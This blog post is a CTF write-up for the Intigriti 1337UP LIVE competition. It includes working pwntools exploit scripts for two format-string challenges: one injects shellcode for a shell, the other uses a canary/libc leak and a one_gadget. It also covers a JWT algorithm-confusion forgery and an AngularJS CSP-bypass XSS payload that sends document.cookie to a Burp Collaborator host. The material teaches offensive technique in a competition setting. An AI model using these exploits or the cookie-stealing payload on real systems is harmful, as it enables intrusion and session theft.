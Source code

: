 ```yaml
---
title: 'Intigriti 1337UP LIVE'
description: My write-ups for the Intigriti 1337UP LIVE, finished in 1st place with team WreckTheLine
date: 2022-03-14T00:00:00Z
---
```


We participated in the Intigriti 1337UP LIVE CTF as team WreckTheLine, in the end our team was formed only by the web players in our team because of the team size limit. 

We managed to get first place! [I even got a certificate to prove that.](/assets/images/posts/intigritiadragos.png)

![Intigriti1337UPLIVEResult](/assets/images/posts/intigriti1337uplivectf.png)

I solved a lot of challenges, but some were very easy so I'm not going to write about them.

Writeups:
* [cake - pwn](#cake)
* [bird - pwn](#bird)
* [ContactAlex - web](#contactalex)

<a name="cake"></a>
# cake - pwn

Format string bug + RWX stack. This is a nice case where we can use pwntools' FmtStr in order to quickly solve the challenge.

```python
from pwn import *
import time

context.clear(arch = 'amd64')

def exec_fmt(payload):
    p = process('./cake')
    p.sendline(b'2')
    p.sendline(payload)
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    p.sendline(b'1')
    p.sendline(b'3')
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

#p = process('./cake')
p = remote('cake.ctf.intigriti.io', 9999)

payload = fmtstr_payload(offset, {0x602018: 0x400A33})

open('payload', 'wb').write(b'2\n'+payload+b'\n3\n')

p.sendline('2')
p.sendline(payload)
p.sendline('3')

p.sendline('2')

#start = 71
#p.sendline(b' '.join(b'%' + str(i).encode() + b'$p' for i in range(start, start + 10)))

# Leak stack value
p.sendline(b'%70$p')
p.sendline('3')

p.recvuntil(b'0x')
r = p.recvline()
stack_addr = int(r,16)

shellcode = asm(shellcraft.sh())

for i in range(0, len(shellcode), 4):
    payload = fmtstr_payload(offset, {stack_addr+i: shellcode[i:i+4]})

    p.sendline('2')
    p.sendline(payload)
    p.sendline('3')


payload = fmtstr_payload(offset, {0x602018: stack_addr})
p.sendline('2')
p.sendline(payload)
# p.sendline('3')

p.interactive()
```

<a name="bird"></a>
# bird - pwn

Simple FSB to leak the stack cookie and libc, then use one_gadget to get a shell

```python
from pwn import *
import time

#sh = process('./bird')
#context.terminal = ['tmux','splitw','-h']

sh = remote('bird.ctf.intigriti.io', 7777)

payload = b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 %63$p %59$p'

sh.sendline(payload)

first_leak = sh.recvuntil(b'Did you hear the bird').split(b'c56500c7ab26a5100d4672cf18835690c56500c7ab26a5100d4672cf18835690 ')[1]

libc_start_main = int(first_leak.split(b' ')[0][2:], 16)
stack_cookie = int(first_leak.split(b' ')[1].split(b'\n')[0][2:], 16)

print(hex(libc_start_main))
print(hex(stack_cookie))

main_offset = 0x21BF7

one_gadget = 0x4f432

libc_base = libc_start_main - main_offset

print(hex(libc_base))

og = libc_base + one_gadget

payload = b'A' * 88 + p64(stack_cookie) + p64(0x602070) + p64(og) + b'\x00' * 120

sh.sendline(payload)

"""
gdb.attach(sh, '''
''')
"""

sh.interactive()
```

<a name="contactalex"></a>
# ContactAlex - web

First we need to craft a JWT cookie that has the username Alex. As it turns out the source code is vulnerable to this: 

[https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555](https://github.com/silentsignal/rsa_sign2n/tree/release/CVE-2016-10555)

So we just get 2 JWTs which are generated by the application and then we can retrieve the Public Key. With that we can trick the JWT parser to use HS256 instead of RS256 and it will use the public key as the key. With [https://token.dev/](https://token.dev/) we can quickly forge a JWT.

Next we have XSS, which should be easy, but the CSP made this harder.

```
Content-Security-Policy: default-src 'self'; img-src 'self' data:; style-src 'nonce-5eccb9953787c4de8452048da55d8430'; font-src https://fonts.googleapis.com/ https://fonts.gstatic.com/; object-src 'none'; base-uri 'none'; script-src 'self' https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/;
```

As it turns out, you can bypass CSP if https://cdnjs.cloudflare.com is whitelisted. We can then use Angular in order to get XSS.

Final payload:
```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/..%2f..%2fangular.js/1.6.0/angular.js" /></script>

<body ng-app ng-csp>

<input autofocus ng-focus="$event.path|orderBy:'top.location.href=&#x22;//otlv0l5ql6fm6m1a6lz40uact3zunj.burpcollaborator.net/&#x22;+document.cookie'">

</body>
```